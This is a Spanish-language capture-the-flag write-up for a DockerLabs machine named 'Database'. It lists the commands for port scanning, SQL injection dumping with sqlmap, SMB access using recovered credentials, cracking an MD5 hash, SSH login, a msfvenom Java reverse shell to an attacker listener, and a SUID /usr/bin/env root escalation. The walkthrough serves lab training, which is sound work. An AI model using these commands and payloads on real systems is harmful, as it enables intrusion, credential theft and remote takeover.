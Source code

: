```yaml
---
title: Database
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```




iniciamos la maquina 

![Descripción de la imagen](/imagenes/pasted_image_20241129171203.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2` 
 
![[Pasted image 20241129171313.png]](/imagenes/Pasted%20image%2020241129171313.png)

entramos a la dirrecion desde el navegador 

![[Pasted image 20241129171346.png]](/imagenes/Pasted%20image%20241129171346.png)

buscamos si el login tiene alguna vulneravilidad sql `sqlmap -u http://172.17.0.2:80/index.php --dbs --forms` 

![[Pasted image 20241129171558.png]](/imagenes/Pasted%20image%2020241129171558.png)

encontramos bases de datos que exploraremos 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables` 
 
 ![[Pasted image 20241129171705.png]](/imagenes/Pasted%20image%2020241129171705.png)
 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns --batch`
 
 ![[Pasted image 20241129171823.png]](/imagenes/Pasted%20image%202024112917182.png)
 
`sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns -C username,passwd --batch --dump`

![[Pasted image 20241129171940.png]](/imagenes/Pasted%20image%2020241129171940.png)

con las credenciales encontradas probamos en el login 

![[Pasted image 20241129172039.png]](/imagenes/Pasted%20image%2020241129172039.png)

en nmap observamos que esta base de datos corria en samba asi que hacemos uso de smbmap `smbmap -H 172.17.0.2 -u 'dylan' -p 'KJSDFG789FGSDF78'`

![[Pasted image 20241129172223.png]](/imagenes/Pasted%20image%2020241129172223.png)

tenemos permisos de lectura y escritura en shared `smbclient -U 'dylan' //172.17.0.2/shared` 

![[Pasted image 20241129172319.png]](/imagenes/Pasted%20image%2020241129172319.png)

con el comando get descargamos el archivo txt que encontramos de nombre augustus,txt

![[Pasted image 20241129172409.png]](/imagenes/Pasted%20image%2020241129172409.png)

vemos que es un tipo de hash procedemos a identificar y decifrar 

![[Pasted image 20241129172508.png]](/imagenes/Pasted%20image%2020241129172508.png)

`echo "061fba5bdfc076bb7362616668de87c8" > hashes.txt   ---  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241129172730.png]](/imagenes/Pasted%20image%2020241129172730.png)

entramos mediante ssh con el usuario augustus y la contrasena obtenida  `ssh -p22 augustus@172.17.0.2` 

![[Pasted image 20241129172918.png]](/imagenes/Pasted%20image%2020241129172918.png)

usamos msfvenom para hacernos una revershell ya que el usuario dylan puede ejecutar codigo java 
 `msfvenom -p java/shell_reverse_tcp LHOST=<tu-ip> LPORT=4444 -f jar -o shell.jar`
 nos colocamos en escucha y luego ejecutamos nuestro archivo desde el usuario augustus 
 
 ![[Pasted image 20241129173148.png]](/imagenes/Pasted%20image%2020241129173148.png)
 
  con este comando subes tu archivo jar a la maquina victima `scp <archivo> augustus@172.17.0.2:/tmp` luego ejecutas `sudo -u dylan /usr/bin/java -jar /tmp/shell.jar`
  
  ![[Pasted image 20241129173519.png]](/imagenes/Pasted%20image%2020241129173519.png)
  
  le das tratamiento a la tty para tener la interfaz dylan `script /dev/null -c bash`
 luego para buscar los recursos que ejecuta el usuario  `find / -perm -4000 2>/dev/null`
 ya puedes observar que tienes permiso en la ruta env `/usr/bin/env /bin/sh -p`
 y listo eres root 
 
![[Pasted image 20241129173801.png]](/imagenes/Pasted%20image%2020241129173801.png)


   


